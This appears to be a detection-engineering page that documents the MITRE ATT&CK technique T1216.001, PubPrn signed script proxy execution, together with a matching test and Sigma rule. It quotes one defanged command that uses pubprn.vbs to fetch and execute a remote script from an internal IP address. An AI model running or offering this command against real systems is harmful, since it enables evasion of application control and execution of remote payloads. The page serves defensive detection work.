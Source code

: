 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: PubPrn 

Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application control solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


## Executor
command_prompt

# Sigma Rule
 - proc_creation_win_susp_cscript_vbs.yml (id: 23250293-eed5-4c39-b57a-841c8933a57d)



[back](../index.md)
